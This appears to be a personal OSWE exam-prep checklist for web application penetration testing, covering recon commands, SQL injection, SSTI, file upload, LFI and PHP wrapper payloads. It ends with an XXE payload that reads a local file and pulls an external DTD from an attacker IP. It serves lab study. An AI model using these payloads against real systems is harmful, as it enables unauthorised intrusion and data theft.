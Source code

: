 - Initial discovery
  - [ ] Basic port scan
  - [ ] Default user accounts 
  - [ ] Check cookies and response headers
  - [ ] Check how each user controlled input reflect in the UI (XSS/SSTI)
  - [ ] Loose comparison in PHP (+ magic hashes)
  - [ ] Find deployment location using "ps -ef" or "Process Explorer" 
  - [ ] `grep -rnw "eval(" . --color`
  - [ ] query `^.*?query.*?select.*?`
  - [ ] Routing configuration
  - [ ] whitelist/blacklists
  - [ ] "Random" usage or MD5 SHA1 usage
  - [ ] Source of 404 and other error pages
  - [ ] README.md / CHANGELOG.md
    - [ ] `while read l; do echo "===$l==="; curl $l/README.md -k; done < packages.txt`
    - [ ] `cat commands.html | grep -E "script.*src" | grep -Ev "vendor|lib|plugin"`
    - [ ] `wget --no-check-certificate -q -i list.txt`
    - [ ] `for f in compressed_*.js; do js-beautify $f > pretty/"${f//compressed_}"; done;`
  - Identify libraries
    - [ ] `wget https://github.com/nice-registry/all-the-package-names/raw/master/names.json`
    - [ ] `jq '.[0:10000]' names.json | grep ","| cut -d'"' -f 2 > npm-10000.txt`
    - [ ] `gobuster dir -w ./npm-10000.txt -u https://openitcockpit/js/vendor/ -k`
  - Files
    - `find ./ -iname "*.html"`
    - `grep -r "document.write" ./ --include *.html`
  - Identify WSS endpoint and client code that interact with it 
  - Identify serialized values 
  - Check network interfaces
  - /var/log/auth.log
  - `wget https://github.com/nice-registry/all-the-package-names/raw/master/names.json`
    - `jq '.[0:10000]' names.json | grep ","| cut -d'"' -f 2 > npm-10000.txt`
    - `gobuster dir -w ./npm-10000.txt -u https://openitcockpit/js/vendor/ -k`


- Enabling Logging 
  - [ ] Enable database query logs
  - [ ] PHP display_errors = ON
  - [ ] Log4j configurations
  - [ ] PHP - var_dump
  - [ ] Get error info
    - [ ] Using param[] instead of param to get error messages
    - [ ] Send invalid JSON/XML inputs
  - [ ] Writable files: `find /var/www/html/ -type d -perm -o+w`
  - [ ] Python debugging using - PTVSD 

- Authentication related interesting functions
  - [ ] Session cookie has `httpOnly` flag set (stealing cookie over XSS)
  - [ ] Username enumeration
  - [ ] Login
  - [ ] Registration
  - [ ] Change password
  - [ ] Change email
  - [ ] Confirmation of email update
  - [ ] High authorization functions

- SQLi
  - [ ] Check binary: OR (select 1)=1 --
  - [ ] Check binary with brackets: OR (select 1)=1) --
  - [ ] USERID=1;SELECT (CASE WHEN (1=1) THEN 1 ELSE 0 END)-- 
  - [ ] USERID=1; select+pg_sleep(10);--
  - [ ] USERID=1 UNION SELECT CASE WHEN (SELECT 1)=1 THEN 1 ELSE 0 END--
  - [ ] Escaping
    - [ ] Spaces with: /**/
    - [ ] Quotes with: Hex notation or $$example$$
    - [ ] select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');
    - [ ] SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
  - [ ] Write file
    - [ ] COPY TO/COPY FROM
    - [ ] LO_IMPORT/LO_EXPORT
  - [ ] RCE
    - [ ] PG extension (DLL)
    - [ ] Java PROCEDURE - HSQLDB
      - [ ] com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename
      - [ ] java.lang.System.getProperty

- CSRF
  - [ ] Is CSRF protection present. 
  - [ ] Can XSS be used to initiate a cross origin request. 

- Interesting function
  - [ ] File upload
    - [ ] Can the base path be altered
    - [ ] ZIP slip
    - [ ] Validation bypass
      - [ ] <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files>
      - [ ] <https://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html>
      - [ ] <https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload>
  - [ ] File download
    - [ ] Can the base path be altered
  - [ ] Setup operations and database scripts
  - [ ] Configuration structure
  - [ ] Search functions 
  - [ ] APIs
  - [ ] XML/JSON processing functions
  - [ ] Mass assignment
    - [ ] <https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Mass_Assignment_Cheat_Sheet.md>

- SSTI
  - [ ] Check expressions like ({10*10)}
  - [ ] Inject logs `;require('util').log('CODE_EXECUTION');`
  - [ ] <https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf>

- Payloads 
  - [ ] FuzzDB <https://raw.githubusercontent.com/fuzzdb-project/fuzzdb/master/attack/os-cmd-execution/command-injection-template.txt>
  - LFI
    - [ ] `/proc/self/cmdline`
  - [] `{var} ${var} {{var}} <%var%> [% var %]`

- Exam tips
  - [ ] Search technology inside OSWE notes
  - [ ] Search technology in Payload All The Things repo 
  - [ ] .dockerenv / env / cron
  - [ ] `php://filter/read=convert.base64-encode/resource=example.php`
  - [ ] `data://text/plain,<?php echo system(“uname -a”);?>`
  - [ ] graphql
  - [ ] .Net fiddle
  - [ ] <https://github.com/blabla1337/skf-labs>
  - [ ] <https://www.tunnelsup.com/hash-analyzer/>
  - [ ] 


- Steps
  - What are the exposed functions to non-auth users
  - How admin panel / user panel check if user is logged in
  - Login/registration/forgot-password/logout functions
  
XXE
```xml
<!ENTITY wrapper "%start;%file;%end;">

<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///home/student/crx/data/hsqldb/dbmanager.sh" >
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://192.168.119.120/wrapper.dtd" >
%dtd;
]>
<org.opencrx.kernel.account1.Contact>
<lastName>&wrapper;</lastName>
<firstName>Tom</firstName> </org.opencrx.kernel.account1.Contact>

```


JavaScript Keylogger into XXS